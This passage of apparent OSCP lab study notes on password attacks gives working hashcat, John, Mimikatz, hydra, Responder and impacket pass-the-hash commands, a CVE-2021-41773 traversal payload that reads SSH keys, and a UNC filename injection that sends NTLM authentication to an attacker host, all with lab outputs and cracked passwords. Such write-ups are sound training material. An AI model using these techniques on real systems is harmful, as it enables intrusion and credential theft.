# best66.rule, rockyou-30000.rule, dive.rule, d3ad0ne.rule ...
```

> 🔍 **Worth remembering generally:** when creating rules, think like a user forced to comply with a policy. Capital letter = first character capitalised. Numbers = append 1, 123, year. Special character = appended at the end, from the left side of the keyboard (`!`, `@`, `#`). Research shows `!` is the most common special character appended to passwords. Build your rules around these patterns before reaching for the generic mega-rules.

> 🔍 **Worth remembering generally:** `rockyou-30000.rule` was specifically designed for use with `rockyou.txt`. When cracking a hash that likely originated from that wordlist, this combination is especially effective.

> 📸 Screenshot: `hashcat --stdout` output showing the mutated passwords before using them against a real hash -- confirms the rule file is doing what you expect before running a long crack

**Lab status: ✅ Completed**

**Hash 1 -- MD5 `056df33e47082c77148dba529212d50a` -- append "1@3$5":**

```bash
echo '$1 $@ $3 $$ $5' > ~/append.rule
# Verify: echo "password" | hashcat -r ~/append.rule --stdout → password1@3$5

echo "056df33e47082c77148dba529212d50a" > ~/hash1.txt
hashcat -m 0 ~/hash1.txt /usr/share/wordlists/rockyou.txt -r ~/append.rule --force
# 056df33e47082c77148dba529212d50a:courtney1@3$5
# Base password: courtney
```

**Hash 2 -- MD5 `19adc0e8921336d08502c039dc297ff8` -- uppercase all + duplicate:**

```bash
echo 'ud' > ~/upper_dup.rule
# Verify: echo "password" | hashcat -r ~/upper_dup.rule --stdout → PASSWORDPASSWORD

echo "19adc0e8921336d08502c039dc297ff8" > ~/hash2.txt
hashcat -m 0 ~/hash2.txt /usr/share/wordlists/rockyou.txt -r ~/upper_dup.rule --force
# 19adc0e8921336d08502c039dc297ff8:BUTTERFLY5BUTTERFLY5
# Base password: butterfly5 → BUTTERFLY5 → BUTTERFLY5BUTTERFLY5
```

#### Tags: #RuleBasedAttack #Hashcat #Wordlist #MutateWordlist #PasswordPolicy #Module16

---

### 16.2.3. Cracking Methodology

A structured approach prevents wasted effort. Five steps, in order:



**Identify the hash type** with `hash-identifier` or `hashid` (both on Kali). Some hashes are ambiguous -- MD2, MD4, and MD5 can look identical to automated tools. Cross-check results or look for context clues (where the hash came from, what system generated it).

**Hash formats** to know:

| Prefix / Length | Algorithm |
|---|---|
| 32 hex chars | MD5 (also MD2, MD4 -- need context) |
| 40 hex chars | SHA-1 |
| 64 hex chars | SHA-256 |
| `$2y$` or `$2b$` | bcrypt |
| `$6$` | SHA-512 crypt |
| `$keepass$` | KeePass database |
| `$sshng$6$` | SSH private key (SHA-512) |

> 🔍 **Worth remembering generally:** extra whitespace or newlines in a hash file silently break cracking attempts. The tool accepts the file, runs, and finds nothing -- not because the password isn't in the wordlist but because the hash doesn't match due to padding. Always `cat` the hash file and visually inspect it before running a long session.

**Lab status: ✅ Completed** (Q1 + Q2 pure-recall):

| Question | Answer |
|---|---|
| Identify the hash function of `e4f779a01b503a38dec0beeae4ac46c2222b2d91` | **SHA-1** -- 40 hex characters, the fixed output length of SHA-1 |
| Identify the hash function of `$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC` | **bcrypt** -- the `$2y$` prefix is the bcrypt identifier; `10` is the cost factor (number of rounds) |

#### Tags: #CrackingMethodology #HashIdentifier #Hashcat #JohnTheRipper #Module16

---

### 16.2.4. Password Manager

Password managers store all a user's credentials behind one master password. Compromising that master password gives access to everything the user has stored. `KeePass` stores its database as a `.kdbx` file -- a common finding on workstations during assessments.

**Step 1: Locate the database**
```powershell
# Search the whole drive for .kdbx files (PowerShell on target)
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

**Step 2: Transfer the file to Kali** (via RDP shared drive, SMB, or any available channel)

**Step 3: Transform to Hashcat format**
```bash
# keepass2john formats the .kdbx for cracking tools
keepass2john Database.kdbx > keepass.hash

# keepass2john prepends "Database:" -- remove it before cracking
# (edit the file and delete "Database:" at the start)
cat keepass.hash
# Should start with: $keepass$*2*60*0*...
```

**Step 4: Find the Hashcat mode**
```bash
hashcat --help | grep -i "KeePass"
# → 13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)
```

**Step 5: Crack it**
```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

> 🔁 **Similar to:** the `keepass2john` transformation step follows the same pattern as `ssh2john` (next section) and the msfvenom format conversions in [[Fixing Exploits]]. Extract file, run `<format>2john`, strip the filename prefix, feed to the cracker. Once you've done it once, every `*2john` tool feels familiar.

> 🔍 **Worth remembering generally:** `rockyou-30000.rule` was built specifically for use with `rockyou.txt`. When the hash source is a typical user workstation and you have no other information about the password policy, this combination is the best first attempt -- it covers a huge variety of common mutations without taking forever.

> 📸 Screenshot: PowerShell `Get-ChildItem` output confirming the .kdbx file location
> 📸 Screenshot: Hashcat cracking the KeePass hash and revealing the master password
> 📸 Screenshot: KeePass open with the cracked password, showing the stored credentials list

**Lab status: ✅ Completed (VM #1)**

**VM #1 (192.168.158.203, SALESWK01) -- jason/lab, locate and crack KeePass database:**

```powershell
# On target (PowerShell): find the .kdbx file
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# → C:\Users\jason\Documents\Database.kdbx

# Transfer to Kali via RDP drive share
# Reconnect: xfreerdp /u:jason /p:lab /v:192.168.158.203 /drive:kali,/home/kali/
copy C:\Users\jason\Documents\Database.kdbx \\tsclient\kali\Database.kdbx
```

```bash
# Extract and clean the hash
keepass2john ~/Database.kdbx > ~/keepass.hash
sed -i 's/Database://' ~/keepass.hash

# Crack with mode 13400 + rockyou-30000.rule
hashcat -m 13400 ~/keepass.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/rockyou-30000.rule --force
# $keepass$...:qwertyuiop123!
# Cracked in 33 seconds
```

```
# Open KeePass on SALESWK01 with master password: qwertyuiop123!
# Entry "User Company Password": XOWV2yg3JVkYc5cOBYip
```

**VM #2 (192.168.158.227) -- enumerate, brute force nadine, crack KeePass:**

```bash
# Nmap: RDP on 3389, SMB, WinRM -- no FTP this time
sudo nmap -sV 192.168.158.227

# Brute force RDP as nadine
hydra -l nadine -P /usr/share/wordlists/rockyou.txt rdp://192.168.158.227 -t 4
# [3389][rdp] host: 192.168.158.227   login: nadine   password: 123abc
# Note: "12345" showed as valid auth but not active for RDP -- 123abc was the working one

# RDP with drive sharing for file transfer
xfreerdp /u:nadine /p:123abc /v:192.168.158.227 /drive:kali,/home/kali/
```

```powershell
# On target: find KeePass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# → C:\Users\nadine\Documents\Database.kdbx
copy C:\Users\nadine\Documents\Database.kdbx \\tsclient\kali\Database2.kdbx
```

```bash
# Extract hash, strip prefix, crack
keepass2john ~/Database2.kdbx | sed 's/Database2://' > ~/keepass2.hash
hashcat -m 13400 ~/keepass2.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/rockyou-30000.rule --force
# Cracked in ~3 seconds (only 1 KDF iteration vs 60 on VM #1)
# Master password: pinkpanther1234

# Open KeePass on target, entry "flag": eSGJIzUp5nrr834QZBWK
```

#### Tags: #KeePass #PasswordManager #Keepass2john #Hashcat #Module16

---

### 16.2.5. SSH Private Key Passphrase

SSH private keys should be confidential but often aren't. Directory traversal vulnerabilities, misconfigured web servers, and sloppy file permissions all provide paths to retrieve them. A passphrase-protected key is useless to an attacker who can't crack the passphrase.

**Step 1: Transform the key to a crackable hash**
```bash
chmod 600 id_rsa
ssh2john id_rsa > ssh.hash

# ssh2john prepends the filename -- strip it before cracking
# Remove "id_rsa:" from the start of ssh.hash
```

**Step 2: Identify the Hashcat mode**
```bash
# The hash starts with $sshng$6$ -- the $6$ indicates SHA-512
hashcat -h | grep -i "ssh"
# → 22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)  | Private Key
```

**Step 3: Create a targeted wordlist and rules**

If you found a note listing someone's passwords or password habits, use that. Build a small custom wordlist from those passwords and a rule file based on any policy clues:

```bash
# Rule file based on "3 numbers, capital letter, special character" policy
cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

**Step 4: Try Hashcat first**
```bash
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
# Hashcat 22921 does not support aes-256-ctr cipher
# "Token length exception" means the cipher type is unsupported -- switch to JtR
```

**Step 5: If Hashcat fails, use John the Ripper**

JtR supports aes-256-ctr (which modern SSH keys use). JtR reads its rules from `/etc/john/john.conf` -- add custom rules by appending them.

```bash
# Add the rule with a name to john.conf
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

# Crack with JtR
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

> 🔧 **Technique:** "Token length exception" from Hashcat for SSH hashes (mode 22921) means the key used `aes-256-ctr` as its cipher, which 22921 doesn't support. This is not a wordlist problem or a hash format problem. Switch to JtR immediately rather than debugging the Hashcat command.

> 🔁 **Similar to:** the tool-switching pattern here (Hashcat limitation, fall back to JtR) mirrors the approach in [[Fixing Exploits]] where a cross-compilation issue required switching between compilers. The principle is the same: know both tools, use the one that supports the specific format.

> 🎬 **[ippsec.rocks: "ssh private key"](https://ippsec.rocks/?#ssh%20private%20key)** -- search "id_rsa passphrase" or "ssh2john" for boxes where a crackable private key is part of the path; CVE-2021-41773 (Apache 2.4.49 path traversal) is a separate but related vector for leaking keys from the filesystem

> 🔍 **Worth remembering generally:** users rarely change their password *patterns*, only their passwords. If someone's password list shows `rickc137`, they have a preference for appending numbers after a word. If one password starts with a capital letter, they're likely to capitalise future ones. Build rules around observed patterns before reaching for rockyou-30000.

> 📸 Screenshot: `john` output showing the cracked passphrase, then the successful SSH connection using the key

**Lab status: ✅ Completed (VM #1 dave)**

**VM #1 (192.168.158.201, BRUTE) -- find dave's key via TinyFileManager, crack passphrase, SSH in:**

```bash
# Nmap: port 80 (Apache), 8080 (TinyFileManager), 2222 (SSH/dave), 2223 (SSH/alfred)
sudo nmap -sV -p- --min-rate 3000 192.168.158.201
# Port 80 comment: "only alfred has access to the server"

# TinyFileManager on 8080 -- user/121212 still works
# Files exposed: id_rsa, note.txt
curl -s -X POST http://192.168.158.201:8080/index.php \
  -d "fm_usr=user&fm_pwd=121212" -c /tmp/ssh_lab.jar -L > /dev/null

curl -s -b /tmp/ssh_lab.jar "http://192.168.158.201:8080/index.php?p=&dl=note.txt" -o ~/note.txt
curl -s -b /tmp/ssh_lab.jar "http://192.168.158.201:8080/index.php?p=&dl=id_rsa" -o ~/id_rsa
chmod 600 ~/id_rsa
```

```
# note.txt contents:
# Dave's password list: Window, rickc137, dave, superdave, megadave, umbrella
# Policy: 3 numbers, capital letter, special character
# Pattern observed: rickc137 → numbers are 137
```

```bash
# Build targeted wordlist and JtR rule
cat > ~/ssh.passwords << 'EOF'
Window
rickc137
dave
superdave
megadave
umbrella
EOF

cat > ~/ssh.rule << 'EOF'
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
EOF
sudo sh -c 'cat /home/kali/ssh.rule >> /etc/john/john.conf'

# Extract hash -- $sshng$6$ confirms aes-256-ctr (Hashcat 22921 unsupported, use JtR)
ssh2john ~/id_rsa > ~/ssh.hash

# Crack with JtR (18 candidates, instant)
john --wordlist=~/ssh.passwords --rules=sshRules ~/ssh.hash
# Umbrella137!   (/home/kali/id_rsa)

# SSH in as dave
ssh -i ~/id_rsa -p 2222 dave@192.168.158.201
# Passphrase: Umbrella137!

dave@BRUTE:~$ cat ~/flag.txt
OS{4947d02af9a9cfaba1fe789071990691}
```

**VM #1 port 2223 -- alfred via CVE-2021-41773 path traversal + same sshRules:**

```bash
# Apache 2.4.49 on port 80 is vulnerable to CVE-2021-41773 path traversal
# Read alfred's private key from outside the web root
curl --path-as-is \
  "http://192.168.158.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/.ssh/id_rsa" \
  -o ~/alfred_id_rsa
chmod 600 ~/alfred_id_rsa

# Dave's personal note passwords didn't work (alfred uses rockyou.txt base word)
# Same sshRules (c $1 $3 $7 $!/@ /#) but full rockyou.txt wordlist
ssh2john ~/alfred_id_rsa > ~/alfred_ssh.hash
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules ~/alfred_ssh.hash
# Superstar137!   (/home/kali/alfred_id_rsa)   -- found in 8 seconds

ssh -i ~/alfred_id_rsa -p 2223 alfred@192.168.158.201
# Passphrase: Superstar137!

alfred@e186d6938d7f:~$ ls
# 123_flag.txt  (not flag.txt -- always ls first)
alfred@e186d6938d7f:~$ cat 123_flag.txt
OS{0a4daf26c57e4442197bb22a9cdc13e2}
```

> 🔍 **Worth remembering generally:** CVE-2021-41773 affects Apache 2.4.49 specifically. The path traversal payload `cgi-bin/.%2e/%2e%2e/...` escapes the document root. Useful any time you see Apache 2.4.49 exposed -- immediately check for readable sensitive files like SSH keys, /etc/passwd, and /etc/shadow.

#### Tags: #SSHPrivateKey #Ssh2john #JohnTheRipper #Hashcat #Passphrase #AES256CTR #Module16

---

## 16.3. Working with Password Hashes

### 16.3.1. Cracking NTLM

Windows stores user password hashes in the **Security Account Manager (SAM)** database. The SYSKEY feature partially encrypts the SAM at rest, but once the system is running, Mimikatz can access the hashes from memory.

**LM vs NTLM:**
- **LM (LAN Manager):** extremely weak. Passwords are case-insensitive, max 14 characters, split into two 7-character halves hashed separately. Disabled by default since Windows Vista/Server 2008.
- **NTLM:** case-sensitive, no length restriction, not salted. The lack of salt means identical passwords produce identical hashes, which enables precomputation attacks (rainbow tables) and pass-the-hash.



**Extracting hashes with Mimikatz:**
```powershell
# Run PowerShell as Administrator on the target Windows system
cd C:\tools
.\mimikatz.exe
```

```
# Inside Mimikatz:
privilege::debug           # Enable SeDebugPrivilege (required)
token::elevate             # Escalate to SYSTEM token (required for lsadump::sam)
lsadump::sam               # Dump NTLM hashes from the SAM database

# Alternative: dumps all cached credentials including domain accounts
sekurlsa::logonpasswords
```

> 🔧 **Technique:** the SAM file cannot be copied while Windows is running (kernel holds an exclusive lock). Mimikatz bypasses this by reading it via the LSASS process memory, not directly from disk.

**Cracking the extracted hash on Kali:**
```bash
# Save the NTLM hash to a file (just the hash, no extra text)
cat nelly.hash
# 3ae8e5f0ffabb3a627672e1600f1ba10

# Find the Hashcat mode for NTLM
hashcat --help | grep -i "ntlm"
# → 1000 | NTLM | Operating System

# Crack with rockyou.txt and best66.rule
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best66.rule --force
```

> 🔍 **Worth remembering generally:** "NTLM hash" is the industry-common name for what Microsoft formally calls an NTHash. The distinction doesn't matter for OSCP but will come up when comparing documentation from different sources.

> 📸 Screenshot: Mimikatz output showing `lsadump::sam` revealing NTLM hashes for each user
> 📸 Screenshot: Hashcat cracking the NTLM hash and revealing the plaintext password

> 🎬 **[ippsec.rocks: "mimikatz sam"](https://ippsec.rocks/?#mimikatz%20sam)** -- search "lsadump" or "sam dump" for SAM extraction walkthroughs; also check HTB Bastion (SMB shares, SAM extraction, PtH) and HTB Resolute (domain credential flow)

**Lab status: ✅ Completed (VM #1)**

**VM #1 (192.168.158.210, MARKETINGWK01) -- offsec/lab, Mimikatz, crack nelly's hash:**

```powershell
# RDP as offsec/lab, open PowerShell as Administrator
# cd C:\tools && .\mimikatz.exe
privilege::debug      # → Privilege '20' OK
token::elevate        # → Impersonated NT AUTHORITY\SYSTEM
lsadump::sam          # → dumps all local NTLM hashes

# nelly's hash:
# RID  : 000003ea (1002)
# User : nelly
#   Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
```

```bash
# Crack on Kali -- NTLM: no salt, no iterations, 22M H/s on CPU
echo "3ae8e5f0ffabb3a627672e1600f1ba10" > ~/nelly.hash
hashcat -m 1000 ~/nelly.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best66.rule --force
# 3ae8e5f0ffabb3a627672e1600f1ba10:nicole1
# Cracked in 0 seconds

# RDP as nelly/nicole1, flag on desktop:
OS{afec97a455ebbefc56ccfa1cac79541c}
```

**VM #2 (192.168.158.227) -- nadine/123abc (from Password Manager lab), extract Steve's hash:**

```powershell
# RDP as nadine/123abc, PowerShell as Administrator
# mimikatz: privilege::debug → token::elevate → lsadump::sam
# RID  : 000003eb (1003)
# User : steve
#   Hash NTLM: 2835573fb334e3696ef62a00e5cf7571
```

```bash
echo "2835573fb334e3696ef62a00e5cf7571" > ~/steve.hash
hashcat -m 1000 ~/steve.hash /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best66.rule --force
# 2835573fb334e3696ef62a00e5cf7571:francesca77
# Answer: francesca77
```

#### Tags: #NTLM #SAM #Mimikatz #LSASS #SeDebugPrivilege #Hashcat #PasswordCracking #Module16

---

### 16.3.2. Passing NTLM

**Pass-the-hash (PtH)** is possible because NTLM hashes are not salted and remain static across sessions. The same hash that authenticates a user today works tomorrow and next week, unless the password changes. This means a captured hash can be used directly for authentication without ever knowing the plaintext.

Two important constraints:
1. **UAC remote restrictions** (enabled by default since Windows Vista): prevents remote code execution using local administrator accounts other than the default `Administrator` account (RID 500). A local admin account that isn't the actual Administrator account can still authenticate via PtH to access shares, but cannot achieve code execution via psexec or wmiexec style tools.
2. **Same credentials across machines:** for PtH to work on a second machine, that machine must have an account with the same username AND password (same hash). This is common when sysadmins use the same local Administrator password everywhere.

```bash
# Access an SMB share using an NTLM hash (no plaintext password needed)
smbclient \\\\<target-ip>\\secrets -U Administrator \
  --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

# Inside smbclient:
# smb: \> dir
# smb: \> get secrets.txt

# Get an interactive SYSTEM shell via PtH (psexec always gives SYSTEM)
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b \
  Administrator@<target-ip>

# Get an interactive shell as the authenticated user (wmiexec gives the actual user)
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b \
  Administrator@<target-ip>
```

**impacket-psexec vs impacket-wmiexec:**
| Tool | Shell runs as | How it works |
|---|---|---|
| `impacket-psexec` | `NT AUTHORITY\SYSTEM` | Uploads .exe to writable share, registers as Windows service, starts it |
| `impacket-wmiexec` | The authenticated user | Uses WMI to execute commands, no file dropped to disk |

> 🔧 **Technique:** the LM hash portion in impacket commands (`00000000000000000000000000000000:`) can always be 32 zeros when only the NTLM hash is needed. LM is disabled on modern Windows. The format is always `LMhash:NThash`.

> 🔁 **Similar to:** the certutil LOLBIN delivery pattern in [[Client-Side Attacks]] -- both techniques repurpose a legitimate Windows capability (authenticating with hashes, or downloading files with certutil) as an offensive tool. The OS provides the primitive; you're just using it creatively. Also similar conceptually to [[Common Web Application Attacks#9.3.2. Using Non-Executable Files|file delivery via legitimate mechanisms]].

> 🔍 **Worth remembering generally:** PtH against domain accounts is even more powerful. If you capture an Administrator hash on one workstation in a domain where the local Administrator password is shared across all workstations (a common enterprise misconfiguration), you can use that single hash to authenticate to every machine in the domain. This is why Microsoft released LAPS (Local Administrator Password Solution) to randomise local admin passwords per machine.

> 📸 Screenshot: smbclient successfully connecting to the SMB share using --pw-nt-hash and listing files
> 📸 Screenshot: impacket-psexec or wmiexec dropping to a shell showing `whoami` output confirming lateral movement

> 🎬 **[ippsec.rocks: "pass the hash"](https://ippsec.rocks/?#pass%20the%20hash)** -- HTB Bastion and HTB Active are the canonical PtH boxes from the OSCP prep list; HTB Forest for domain-level PtH after hash extraction

**Lab status: ✅ Completed**

**VM #1 (192.168.158.211, FILES01) -- find entry point, extract Administrator hash:**

```bash
# Initial recon -- unauthenticated SMB probe confirms machine name and OS
netexec smb 192.168.158.211
# FILES01 | Windows Server 2022 Build 20348 x64 | signing:False

# Credential confirmation -- wrong password = instant LOGON_FAILURE, correct = hangs
# This tells us the password is right but external authenticated sessions are blocked
netexec smb 192.168.158.211 -u gunther -p "wrongpassword123"
# [-] FILES01\gunther:wrongpassword123 STATUS_LOGON_FAILURE  (fast)
netexec smb 192.168.158.211 -u gunther -p "password123!"
# (hangs -- password accepted, post-auth session hangs)

# Nmap reveals unauthenticated bind shell on port 4444
sudo nmap -sV --open -p 21,22,80,135,139,443,445,3389,4444,5985,5986,8080 192.168.158.211
# 4444/tcp open  -- fingerprint returns "C:\Windows\system32>" Windows shell prompt!

# Connect to the pre-placed bind shell (no auth required)
nc 192.168.158.211 4444
# Microsoft Windows [Version 10.0.20348.707]
# C:\Windows\system32>
```

```cmd
C:\Windows\system32> whoami
files01\paul
C:\Windows\system32> whoami /priv
# SeChangeNotifyPrivilege and SeIncreaseWorkingSetPrivilege only
# No SeDebugPrivilege, no SeImpersonatePrivilege -- can't run Mimikatz directly

C:\Windows\system32> dir C:\tools
# mimikatz.exe  1,355,680 bytes
```

Standard Mimikatz approach fails here: `token::elevate` finds a SYSTEM impersonation token but `lsadump::sam` still fails (0x00000005 access denied). On Windows Server 2022, SAM registry access checks the primary process token (paul), not the thread impersonation token. External sessions as gunther also hang at the network level despite the password being correct.

Workaround: create a scheduled task that runs as gunther (who is a local admin) and redirects Mimikatz output to a file:

```cmd
schtasks /create /tn "HashDump" /tr "cmd /c C:\tools\mimikatz.exe \"privilege::debug\" \"token::elevate\" \"lsadump::sam\" exit > C:\tools\out.txt 2>&1" /sc once /st 00:00 /ru FILES01\gunther /rp "password123!" /f
# SUCCESS: The scheduled task "HashDump" has successfully been created.

schtasks /run /tn "HashDump"
# SUCCESS: Attempted to run the scheduled task "HashDump".

type C:\tools\out.txt
```

```
mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0  -- Impersonated NT AUTHORITY\SYSTEM

mimikatz(commandline) # lsadump::sam
Domain : FILES01
SysKey : 509cc0c46295a3eaf4c5c8eb6bf95db1

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b

RID  : 000003ee (1006)
User : gunther
  Hash NTLM: 8119935c5f7fa5f57135620c8073aaca

RID  : 000003ef (1007)
User : paul
  Hash NTLM: 57373a907ccd7196a2bad219132d615f
```

**VM #2 (192.168.158.212, FILES02) -- PtH with Administrator hash, find flag:**

```bash
# Access secrets share with NTLM hash (no plaintext needed)
smbclient \\\\192.168.158.212\\secrets -U Administrator \
  --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
# smb: \> dir  →  secrets.txt (flavour text "this is a secret")

# Get an interactive SYSTEM shell on FILES02 via PtH
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b \
  Administrator@192.168.158.212
# C:\Windows\system32>

type C:\Users\Administrator\Desktop\flag.txt
OS{b7169a7cc93ffd9669928c4cb3f29902}
```

> 🔧 **Hard-won lesson:** On Windows Server 2022, `token::elevate` finds a SYSTEM impersonation token but `lsadump::sam` still fails with access denied. Windows checks the PRIMARY process token (your user) for SAM registry access, not the thread impersonation token -- so even with a SYSTEM impersonation, the registry call is blocked. Fix: run Mimikatz as the admin user via a scheduled task (`schtasks /ru <adminuser> /rp <password>`), which makes that user's token the PRIMARY token of the new process. Output redirected with `> file.txt 2>&1` since the task runs non-interactively.

> 🔧 **Hard-won lesson:** If external authenticated connections hang (RDP, SMB, WinRM all give a dot and never complete), check whether the correct password just causes a post-auth hang rather than a fast rejection. Test: try a WRONG password -- if that fails instantly with `STATUS_LOGON_FAILURE` but the correct one hangs, the credential IS right and something is blocking post-auth sessions (Windows Firewall, dynamic block rules, or lab infrastructure issue). The credential is still usable for non-interactive sessions (scheduled tasks, locally-triggered commands).

> 🔍 **Worth remembering generally:** Nmap service fingerprinting can identify open bind shells. A port returning `"Microsoft Windows [Version...]"` and `"C:\Windows\system32>"` in response to NULL probes is a command shell with no authentication. Always scan all common ports (`-p-` or a targeted list) rather than assuming only well-known services are listening.

#### Tags: #PassTheHash #PtH #NTLM #impacket #psexec #wmiexec #smbclient #UAC #ScheduledTasks #Module16

---

### 16.3.3. Cracking Net-NTLMv2

**Net-NTLMv2** is the Windows network authentication protocol: a challenge-response mechanism used when one Windows machine authenticates to another over a network (SMB, HTTP, etc.). It involves:

1. Client sends authentication request
2. Server sends a random challenge
3. Client encrypts the challenge with its NTLM hash to produce a response
4. Server verifies the response



**Responder** intercepts this process by acting as a rogue SMB server. When a Windows machine connects to it (even just a failed `dir \\kali-ip\anything` command), Responder captures the Net-NTLMv2 hash the client sent.

```bash
# Start Responder on your network interface (get interface with ip a)
sudo responder -I tap0

# On the victim (via bind shell, code execution, or any other vector):
# Force an authentication to your Responder listener
dir \\<kali-ip>\test
# "Access is denied" is expected -- Responder still captures the hash
```

Responder output:
```
[SMB] NTLMv2-SSP Username: FILES01\paul
[SMB] NTLMv2-SSP Hash: paul::FILES01:1f9d4c51f6e74653:795F138EC...
```

```bash
# Save the full hash line to a file
cat paul.hash

# Crack with Hashcat (mode 5600 for Net-NTLMv2)
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```

> 🔧 **Technique:** Responder needs raw socket access for the various protocol servers it runs. Always run it with `sudo`. The interface name (`tap0`, `tun0`, `eth0`) must match your actual connected interface -- check with `ip a` first.

> 🔍 **Worth remembering generally:** unlike NTLM hashes (which are static and reusable), Net-NTLMv2 hashes are tied to a specific challenge-response exchange. You cannot pass a Net-NTLMv2 hash the same way you pass an NTLM hash. You must either crack it (to get the plaintext password) or relay it (in the same session, before it expires). If you can't crack it, the relay technique in the next section applies.

> 🔍 **Worth remembering generally:** Responder can also do LLMNR and NBT-NS poisoning (Mitre T1557) -- when a Windows machine can't resolve a hostname via DNS, it broadcasts a query to the local network. Responder responds to these broadcasts claiming to be the requested host, then captures the authentication. Extremely effective in internal assessments, and often overlooked as a detection gap.

> 📸 Screenshot: Responder's terminal output showing the captured Net-NTLMv2 hash for the victim user
> 📸 Screenshot: Hashcat cracking the Net-NTLMv2 hash and revealing the plaintext password
> 📸 Screenshot: RDP connection to the target as the cracked user, confirming the password is valid

> 🎬 **[ippsec.rocks: "responder"](https://ippsec.rocks/?#responder)** -- search "ntlmv2" or "llmnr" alongside "responder" for the broadest coverage; HTB Forest and HTB Multimaster feature Responder in prominent attack paths

**Lab status:** (Q1 + Q2 hands-on)

**Lab status: ✅ Completed (VM #1)**

**VM #1 (192.168.158.211, FILES01) -- capture paul's Net-NTLMv2 hash via Responder, crack it, RDP:**

```bash
# Terminal 1: start Responder on VPN interface
sudo responder -I tun0

# Terminal 2: connect to the bind shell on port 4444 (same VM as 16.3.2)
nc 192.168.158.211 4444
```

```cmd
# From the bind shell -- trigger SMB auth to Kali
dir \\192.168.45.219\test
# "Access is denied." -- expected, Responder still captures the hash
```

Responder output:
```
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:593847d503ad4881:686433AC27745A1F1DB476D47B6AC65E:...
```

```bash
# Save and crack the hash
echo "paul::FILES01:593847d503ad4881:686433AC..." > ~/paul.hash
hashcat -m 5600 ~/paul.hash /usr/share/wordlists/rockyou.txt --force
# PAUL::FILES01:...:123Password123
# Cracked in 9 seconds (92.97% through rockyou.txt)

# RDP as paul with the cracked password
xfreerdp /u:paul /p:"123Password123" /v:192.168.158.211 /cert:ignore
# Flag on paul's desktop:
# OS{fbba4d3334de37e8ab70fc0b4fc87f2c}
```

**Lab status: ✅ Completed (VM #2)**

**VM #2 (192.168.158.210, MARKETINGWK01) -- UNC filename injection via Go file server upload, crack sam's hash, RDP:**

Initial recon:
```bash
# Add hostname to /etc/hosts (required -- form action uses the hostname)
echo "192.168.158.210 marketingwk01" | sudo tee -a /etc/hosts

# Common ports scan reveals only 445 and 3389, then a wider scan finds the key port
sudo nmap -sV -p 1-10000 192.168.158.210
# 445/tcp  open  microsoft-ds   -- SMB (no null session: STATUS_ACCESS_DENIED)
# 3389/tcp open  ms-wbt-server  -- RDP
# 8000/tcp open  http           -- Go HTTP server with file upload form
```

The web application at port 8000 is a Go HTTP file server with a single `<form enctype="multipart/form-data" action="http://marketingwk01:8000/upload">` containing one `<input type="file" name="myFile">`. Uploaded files are served directly from the web root. No other inputs, parameters, or endpoints.

Confirmed Windows raw path handling via Windows device names:
```bash
curl http://marketingwk01:8000/nul    # 200 OK (Windows NUL device)
curl http://marketingwk01:8000/aux    # (hangs -- AUX is the Windows serial port device)
```
This confirms Go's `net/http.FileServer` on Windows passes URL path components directly to OS file open calls without sanitising reserved device names.

**Attack technique: UNC filename injection**



Go's `filepath.Join(uploadDir, filename)` on Windows treats any path starting with `//server/` as an absolute UNC path and discards the preceding upload directory entirely. If the upload handler takes `header.Filename` from the multipart Content-Disposition and passes it directly to `os.Create(filepath.Join(uploadDir, header.Filename))`, a filename like `//192.168.45.219/share/test.html` becomes `\\192.168.45.219\share\test.html` -- a UNC path on our Kali machine. Windows then initiates SMB authentication to access that path, and Responder captures the Net-NTLMv2 hash from the service account running the file server.

```bash
# Terminal 1: start Responder on VPN interface
sudo responder -I tun0

# Terminal 2: upload a file with a forward-slash UNC path as the filename
# Forward slashes are critical: \\server form may be filtered; //server/ is the same UNC path
# and avoids backslash stripping in some handlers
curl -v -X POST http://marketingwk01:8000/upload \
  -F "myFile=@/home/kali/test.html;filename=//192.168.45.219/share/test.html"
# HTTP/1.1 200 OK (empty body -- server tried to open the UNC path, auth was intercepted)
```

Responder output:
```
[SMB] NTLMv2-SSP Client   : 192.168.158.210
[SMB] NTLMv2-SSP Username : MARKETINGWK01\sam
[SMB] NTLMv2-SSP Hash     : sam::MARKETINGWK01:fbfe8fec3371fff5:74F393595B1FECBB9A233C003D53C8FC:...
```

```bash
